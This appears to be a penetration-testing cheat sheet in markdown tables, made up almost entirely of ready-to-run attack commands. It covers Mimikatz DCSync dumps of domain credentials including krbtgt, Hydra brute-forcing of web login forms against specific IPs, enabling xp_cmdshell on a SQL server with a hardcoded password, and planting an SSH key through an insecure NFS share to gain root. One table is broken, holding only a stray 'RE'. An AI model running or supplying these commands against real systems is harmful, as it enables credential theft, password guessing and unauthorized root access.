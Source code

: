 |DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|


### Avance Cracking Web Forms with Hydra

| For example  |
| ------------- |
|hydra -l admin -P /usr/share/wordlists/rockyou.txt  -f -V -s 80 192.168.1.2 http-get /wp-admin/|
|hydra -l root -P /usr/share/wordlists/rockyou.txt  -f -V -s 7001 178.72.90.181 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"|
|hydra 192.168.100.155 -V -l admin -P passwordlist http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=rjevaetqb3dqbj1ph3nmjchel2; security=low"|
|hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list|
|hydra -l IRISnoir -P /usr/share/wordlists/rockyou.txt -e nsr -v -V http-post-form://testasp.vulnweb.com/"Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout"|

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
|Invoke-SqlCommand -server  192.168.1.10   -username sa -password 123456qQ -database master -query "EXEC sp_configure 'show advanced options',1;reconfigure; exec sp_configure 'xp_cmdshell',1;reconfigure" #To enable XP_CMD|

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
|RE|




### Insecure NFS Share Vulnerabilities

| for Example |
| ------------- |
| showmount -e 192.168.100.25 #Check if any share is available |
| mount -t nfs 192.168.100.25:/home /tmp/NFS |
| mount -t nfs 192.168.1.112:/ /mnt -o nolock |
| mkdir -p /root/.ssh # We May Upload SSH Key to NFS |
| ssh-keygen -t rsa -b 4096 |
| cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/ |
| cat authorized_keys |
| cat id_rsa.pub >> authorized_keys |
|ssh -i /root/.ssh/hacker_rsa root@192.168.1.112|
